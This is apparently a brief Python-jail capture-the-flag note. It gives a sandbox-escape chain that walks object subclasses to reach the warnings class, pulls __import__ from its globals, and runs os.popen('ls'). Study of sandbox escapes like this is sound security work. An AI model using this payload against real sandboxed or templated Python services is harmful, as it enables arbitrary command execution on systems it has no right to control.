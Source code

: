 # pyjail

找 warnings

`''.__class__.__mro__[1].__subclasses__()[182].__init__.__dir__()`

`''.__class__.__mro__[1].__subclasses__()[182].__init__.__globals__["__builtins__"]["__import__"]('os').popen('ls').read()`

